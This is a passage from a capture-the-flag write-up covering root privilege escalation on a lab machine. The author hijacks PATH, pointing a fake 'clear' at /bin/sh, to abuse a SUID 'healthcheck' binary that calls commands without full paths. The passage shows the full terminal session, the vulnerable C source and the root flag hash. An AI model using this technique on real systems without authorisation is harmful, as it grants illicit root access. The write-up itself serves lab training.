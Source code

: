 ## Privilege Escalation
### SUID Binary

I moved to the shm directory, created a symbolic link to the /bin/sh binary with the name of the clear command, exported the /dev/shm directory to the PATH environment variable, and finally ran the healthcheck binary, giving me a root shell.

```bash
bash-4.1$ cd /dev/shm
bash-4.1$ ln -s /bin/sh clear
ln -s /bin/sh clear
bash-4.1$ export PATH=/dev/shm:$PATH
export PATH=/dev/shm:$PATH
bash-4.1$ echo $PATH
echo $PATH
/dev/shm:/sbin:/usr/sbin:/bin:/usr/bin
bash-4.1$ /usr/bin/healthcheck
/usr/bin/healthcheck
gpg-agent[12879]: error creating `/.gnupg/gpg-agent-info': No such file or directory
[root@localhost shm]# id
id
uid=0(root) gid=0(root) groups=0(root),416(apache)
[root@localhost shm]# cd /root                                                 
cd /root
[root@localhost root]# ls                                                      
ls
Desktop/    drakx/        healthcheck.c  sudo.rpm
Documents/  healthcheck*  root.txt       tmp/
```

Below you can see the vulnerable healthcheck.c script, and the root flag.

```bash
[root@localhost root]# cat healthcheck.c                                       
cat healthcheck.c
#include<unistd.h>
void main()
{ setuid(0);
  setgid(0);
  system("clear ; echo 'System Health Check' ; echo '' ; echo 'Scanning System' ; sleep 2 ; ifconfig ; fdisk -l ; du -h");
}
```

```bash
[root@localhost root]# cat root.txt                                            
cat root.txt
██    ██  ██████  ██    ██     ████████ ██████  ██ ███████ ██████      ██   ██  █████  ██████  ██████  ███████ ██████  ██ 
 ██  ██  ██    ██ ██    ██        ██    ██   ██ ██ ██      ██   ██     ██   ██ ██   ██ ██   ██ ██   ██ ██      ██   ██ ██ 
  ████   ██    ██ ██    ██        ██    ██████  ██ █████   ██   ██     ███████ ███████ ██████  ██   ██ █████   ██████  ██ 
   ██    ██    ██ ██    ██        ██    ██   ██ ██ ██      ██   ██     ██   ██ ██   ██ ██   ██ ██   ██ ██      ██   ██    
   ██     ██████   ██████         ██    ██   ██ ██ ███████ ██████      ██   ██ ██   ██ ██   ██ ██████  ███████ ██   ██ ██ 
                                                                                                                          
                                                                                                                          
Thanks for Playing!

Follow me at: http://v1n1v131r4.com


root hash: eaff25eaa9ffc8b62e3dfebf70e83a7b
```